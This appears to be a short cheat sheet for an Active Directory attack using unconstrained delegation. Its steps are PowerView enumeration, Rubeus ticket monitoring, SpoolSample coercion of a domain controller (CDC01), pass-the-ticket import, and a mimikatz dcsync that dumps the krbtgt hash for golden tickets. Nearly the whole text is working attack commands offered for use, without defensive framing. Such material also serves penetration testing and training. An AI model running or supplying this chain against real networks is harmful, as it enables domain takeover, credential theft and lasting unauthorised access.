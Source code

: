 **IMPORTANT NOTE:** ALL THIS HAVE TO BE PERFORMED FROM A POWERSHELL SESSION

1st Enumeration with PowerView
	
 ```Get-DomainComputer -Unconstrained```

2nd Monitoring with Rubeus for a TGT of the CDC01$ computer account
	
```Rubeus.exe monitor /interval:5 /filteruser:CDC01$```

3rd Coerce authentication with SpoolSample of CDC01 to APPSRV01
	
 ```SpoolSample.exe CDC01 APPSRV01```
	
4th The import the recieved TGT with Rubeus
	
 ```Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo...```

5th(mimikatz) Since CDC01$ is not a local administrator account on the domain controller we cannot perform direct lateral movement, instead we will perform dcsync to dump the krbtgt NTLM hash to create golden tikcets
	
 ```lsadump::dcsync /domain:contoso.com /user:contoso\krbtgt```
